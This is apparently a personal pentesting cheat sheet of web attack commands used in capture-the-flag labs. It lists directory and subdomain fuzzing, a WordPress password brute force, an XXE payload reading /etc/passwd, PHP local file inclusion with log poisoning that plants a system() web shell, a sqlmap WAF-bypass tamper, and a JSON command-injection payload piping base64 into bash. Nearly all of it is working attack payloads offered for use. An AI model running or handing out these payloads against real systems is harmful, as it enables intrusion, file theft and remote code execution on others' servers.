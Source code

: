 [back](/README.md)
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP/island/2100/FUZZ.ticket

feroxbuster -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```

#### Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm"
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

#### cadaver for WebDAV

#### payload in json format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
